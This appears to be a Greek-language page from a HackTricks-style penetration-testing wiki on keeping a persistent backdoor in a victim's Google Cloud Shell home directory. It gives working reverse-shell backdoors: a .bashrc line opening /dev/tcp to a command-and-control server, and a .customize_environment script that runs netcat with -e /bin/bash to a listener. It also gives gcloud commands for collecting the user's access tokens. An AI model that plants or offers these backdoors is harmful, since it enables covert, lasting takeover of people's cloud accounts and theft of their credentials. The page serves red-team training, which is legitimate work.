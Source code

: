# GCP - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell

Για περισσότερες πληροφορίες ελέγξτε:

{{#ref}}
../gcp-services/gcp-cloud-shell-enum.md
{{#endref}}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) σας παρέχει πρόσβαση γραμμής εντολών στους πόρους σας στο cloud απευθείας από τον περιηγητή σας χωρίς κανένα σχετικό κόστος.

Μπορείτε να αποκτήσετε πρόσβαση στο Cloud Shell της Google από την **ιστοσελίδα κονσόλας** ή εκτελώντας **`gcloud cloud-shell ssh`**.

Αυτή η κονσόλα έχει κάποιες ενδιαφέρουσες δυνατότητες για τους επιτιθέμενους:

1. **Οποιοσδήποτε χρήστης της Google με πρόσβαση στο Google Cloud** έχει πρόσβαση σε μια πλήρως αυθεντικοποιημένη περίπτωση Cloud Shell (Οι Λογαριασμοί Υπηρεσιών μπορούν, ακόμη και αν είναι Ιδιοκτήτες της οργάνωσης).
2. Η εν λόγω περίπτωση θα **διατηρήσει τον κατάλογο αρχικής της για τουλάχιστον 120 ημέρες** αν δεν συμβεί καμία δραστηριότητα.
3. Δεν υπάρχουν **δυνατότητες για μια οργάνωση να παρακολουθεί** τη δραστηριότητα αυτής της περίπτωσης.

Αυτό σημαίνει βασικά ότι ένας επιτιθέμενος μπορεί να τοποθετήσει μια backdoor στον κατάλογο αρχικής του χρήστη και όσο ο χρήστης συνδέεται στο GC Shell τουλάχιστον κάθε 120 ημέρες, η backdoor θα επιβιώσει και ο επιτιθέμενος θα αποκτήσει πρόσβαση σε ένα shell κάθε φορά που εκτελείται απλά κάνοντας:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
Υπάρχει ένα άλλο αρχείο στον φάκελο home που ονομάζεται **`.customize_environment`** που, αν υπάρχει, θα **εκτελείται κάθε φορά** που ο χρήστης έχει πρόσβαση στο **cloud shell** (όπως στην προηγούμενη τεχνική). Απλά εισάγετε την προηγούμενη backdoor ή μία όπως η παρακάτω για να διατηρήσετε την επιμονή όσο ο χρήστης χρησιμοποιεί "συχνά" το cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
> [!WARNING]
> Είναι σημαντικό να σημειωθεί ότι την **πρώτη φορά που εκτελείται μια ενέργεια που απαιτεί αυθεντικοποίηση**, εμφανίζεται ένα αναδυόμενο παράθυρο εξουσιοδότησης στον περιηγητή του χρήστη. Αυτό το παράθυρο πρέπει να γίνει αποδεκτό πριν μπορέσει να εκτελεστεί η εντολή. Εάν εμφανιστεί ένα απροσδόκητο αναδυόμενο παράθυρο, μπορεί να προκαλέσει υποψίες και ενδεχομένως να θέσει σε κίνδυνο τη μέθοδο επιμονής που χρησιμοποιείται.

Αυτό είναι το αναδυόμενο παράθυρο από την εκτέλεση του `gcloud projects list` από το cloud shell (ως επιτιθέμενος) που προβάλλεται στη συνεδρία του περιηγητή του χρήστη:

<figure><img src="../../../images/image (10).png" alt=""><figcaption></figcaption></figure>

Ωστόσο, εάν ο χρήστης έχει χρησιμοποιήσει ενεργά το cloudshell, το αναδυόμενο παράθυρο δεν θα εμφανιστεί και μπορείτε να **συγκεντρώσετε τα tokens του χρήστη με**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Πώς καθορίζεται η σύνδεση SSH

Βασικά, αυτές οι 3 κλήσεις API χρησιμοποιούνται:

- [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (θα σας κάνει να προσθέσετε το δημόσιο κλειδί που δημιουργήσατε τοπικά)
- [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (θα σας κάνει να ξεκινήσετε την παρουσία)
- [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (θα σας πει τη διεύθυνση ip του google cloud shell)

Αλλά μπορείτε να βρείτε περισσότερες πληροφορίες στο [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Αναφορές

- [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
- [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
- [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{{#include ../../../banners/hacktricks-training.md}}
